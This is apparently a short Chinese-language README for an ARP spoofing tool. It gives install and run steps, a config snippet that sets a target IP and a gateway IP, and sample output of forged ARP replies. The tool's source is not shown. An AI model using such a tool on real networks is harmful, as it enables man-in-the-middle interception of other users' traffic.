 # arp-spoof
arp 欺骗工具源码，不可用于非法用途

## 安装使用

**安装依赖包**
```
pip install -r 
```

**修改mian.py源码里的地址**
```
    # 目标IP
    target = "192.168.12.22"
    # 网关IP
    host = "192.168.12.1"
```

**运行**
```
pyhton3 main.py
[+] Sent to 192.168.12.1 : 192.168.12.22 is-at d0:x:x:x:x:x
[+] Sent to 192.168.12.1 : 192.168.12.22 is-at d0:x:x:x:x:x
[+] Sent to 192.168.12.1 : 192.168.12.22 is-at d0:x:x:x:x:x
```
